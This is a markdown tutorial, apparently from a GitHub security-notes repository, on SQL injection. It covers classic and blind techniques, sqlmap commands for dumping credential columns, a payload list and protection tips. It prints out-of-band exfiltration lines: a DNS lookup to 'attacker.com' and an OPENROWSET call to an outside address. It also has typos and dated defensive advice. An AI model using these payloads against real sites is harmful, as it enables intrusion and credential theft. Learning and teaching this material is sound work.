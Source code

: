 # SQL Injections (SQLi)

![](http://i.imgur.com/AcVJKT2.png)

* A SQL query  search can be easily manipulated and assume that a SQL query search is a reliable command. This means  that SQL searches are capable of passing, unnoticed, by access control mechanisms. 
* Using methods of diverting standard authentication and by checking the authorization credentials, you can gain access to important information stored in a database. 

## The Simplest Example

A parameter passed for a name of a user:

```
SELECT * FROM users WHERE
name="$name";
```

In this case, the attacker just needs to introduce a true logical expression like ```1=1```:

```
SELECT * FROM users WHERE 1=1;
```
So that the **WHERE** clause is always executed, which means that it will return the values that match to all users.

Nowadays it is estimated that less than 5% of the websites have this vulnerability.

These types of flaws facilitate the occurrence of other attacks, such as XSS or buffer overflows.

## Blind SQL Injection

* INFERENCE: useful technique when data not returned and/or detailed error messages disabled. We can differentiate between two states based on some attribute of the page response.

* It's estimated that over 20% of the websites have this flow.

* In traditional SQLi it is possible to reveal the information by the attacker writing a payload. In the blind SQLi, the attacker needs to ask the server if something is TRUE or FALSE. For example, you can ask for a user. If the user exists, it will load the website, so it's true.

* Timing-based techniques: infer based on delaying database queries (sleep(), waitfor delay, etc).

```
IF SYSTEM_USER="john" WAIFOR DELAY '0:0:15'
```

* Response-based techniques (True or False): infer based on text in response. Examples:

```
SELECT count (*) FROM reviews WHERE author='bob' (true)
SELECT count (*) FROM reviews WHERE author='bob' and '1'='1' (true)
SELECT count (*) FROM reviews WHERE author='bob' and '1'='2' (false)
SELECT count (*) FROM reviews WHERE author='bob' and SYSTEM_USER='john' (false)
SELECT count (*) FROM reviews WHERE author='bob' and SUBSTRING(SYSTEM_USER,1,1)='a' (false)
SELECT count (*) FROM reviews WHERE author='bob' and SUBSTRING(SYSTEM_USER,1,1)='c' (true)
```
(and continue to iterate until finding the value of SYSTEM_USER).

* Utilize transport outside of HTTP response.

```
SELECT * FROM  reviews WHERE review_author=UTL_INADDR.GET_HOST_ADDRESS((select user from dual ||'.attacker.com'));
INSERT into openowset('sqloledb','Network=DBMSSOCN; Address=10.0.0.2,1088;uid=gds574;pwd=XXX','SELECT * from tableresults') Select name,uid,isntuser from master.dbo.sysusers--
```

### Common ways of Exploitation
* Every time you see an URL, the **question mark** followed by some type of letter or word means that a value is being sent from a page to another.

* In the example
```
http://www.website.com/info.php?id=10
```
the page *info.php* is receiving the data and will have some code like:
```
$id=$_post['id'];
```
and an associated SQL query:
```
QueryHere = "select * from information where code='$id'"
```



#### Checking for vulnerability
We can start to verifying whether the target is vulnerable by attaching a simple quote symbol ```'``` in the end of the URL:

```
http://www.website.com/info.php?id=10'
```

If the website returns the following error:

	You have an error in your SQL syntax...

It means that this website is vulnerable to SQL.

#### Find the structure of the database
To find the number of columns and tables in a database we can use [Python's SQLmap](http://sqlmap.org/).  

This application streamlines the SQL injection process by automating the detection and exploitation of SQL injection flaws of a database. There are several automated mechanisms to find the database name, table names, and number of columns.

* ORDER BY: it tries to order all columns form x to infinity. The iteration stops when the response shows that the input column x does not exist, reveling the value of x.

* UNION: it gathers several data located in different table columns. The automated process tries to gather all information contained in columns/table x,y,z obtained by ORDER BY. The payload is similar to:

```
?id=5'%22union%22all%22select%221,2,3
```

* Normally the databases are defined with names such as: user, admin, member, password, passwd, pwd, user_name. The injector uses a trial and error technique to try to identify the name:

```
?id=5'%22union%22all%22select%221,2,3%22from%22admin
```
So, for example, to find the database name, we run the *sqlmap* script with target *-u* and enumeration options *--dbs* (enumerate DBMS databases):

```
$ ./sqlmap.py -u <WEBSITE> --dbs
(...)
[12:59:20] [INFO] testing if URI parameter '#1*' is dynamic
[12:59:22] [INFO] confirming that URI parameter '#1*' is dynamic
[12:59:23] [WARNING] URI parameter '#1*' does not appear dynamic
[12:59:25] [WARNING] heuristic (basic) test shows that URI parameter '#1*' might not be injectable
[12:59:25] [INFO] testing for SQL injection on URI parameter '#1*'
[12:59:25] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
[12:59:27] [WARNING] reflective value(s) found and filtering out
[12:59:51] [INFO] testing 'MySQL >= 5.0 AND error-based - WHERE or HAVING clause'
[13:00:05] [INFO] testing 'PostgreSQL AND error-based - WHERE or HAVING clause'
[13:00:16] [INFO] testing 'Microsoft SQL Server/Sybase AND error-based - WHERE or HAVING clause'
(...)
```

#### Gaining access to the Database

* From this we can verify what databases we have available, for example. From this we can find out how many tables exist, and their respective names. The sqlmap command is:

```
./sqlmap -u <WEBSITE> --tables <DATABASE-NAME>
``` 

* The main objective is to find  usernames and passwords in order to gain access/login to the site, for example in a table named *users*. The sqlmap command is

```
./sqlmap -u <WEBSITE> --columns -D <DATABASE-NAME> -T <TABLE-NAME>
``` 

This will return information about the columns in the given table.

* Now we can dump all the data of all columns using the flag ```-C``` for column names:

```
./sqlmap -u <WEBSITE> --columns -D <DATABASE-NAME> -T <TABLE-NAME> -C 'id,name,password,login,email' --dump
```

If the password are clear text (not hashed in md5, etc), we have access to the website.

## Basic SQL Injection Exploit Steps

1. Fingerprint database server.
2. Get an initial working exploit. Examples of payloads:
	- '
	- '--
	- ')--
	- '))--
	- or '1'='1'
	- or '1'='1
	- 1--
3. Extract data through UNION statements:
	- NULL: use as a column place holder helps with data type conversion errors
	- GROUP BY - help determine number of columns
4. Enumerate database schema.
5. Dump application data.
6. Escalate privilege and pwn the OS.






## Some Protection Tips

* Never connect to a database as a super user or as a root.
* Sanitize any user input. PHP has several functions that validate functions such as:
	- is_numeric()
	- ctype_digit()
	- settype()
	- addslahes()
	- str_replace()
* Add quotes ```"``` to all non-numeric input values that will be passed to the database by using escape chars functions:
	- mysql_real_escape_string()
	- sqlit_escape_string()

```php
$name = 'John';
$name = mysql_real_escape_string($name);
$SQL = "SELECT * FROM users WHERE username='$name'";
```

* Always perform a parse of data that is received from the user (POST and FORM methods). 
	- The chars to be checked:```", ', whitespace, ;, =, <, >, !, --, #, //```.
	- The reserved words: SELECT, INSERT, UPDATE, DELETE, JOIN, WHERE, LEFT, INNER, NOT, IN, LIKE, TRUNCATE, DROP, CREATE, ALTER, DELIMITER.

* Do not display explicit error messages that show the request or a part of the SQL request. They can helpfingerprint the RDBMS(MSSQL, MySQL).

* Erase user accounts that are not used (and default accounts).

* Other tools: blacklists, AMNESIA, Java Static Tainting, Codeigniter.

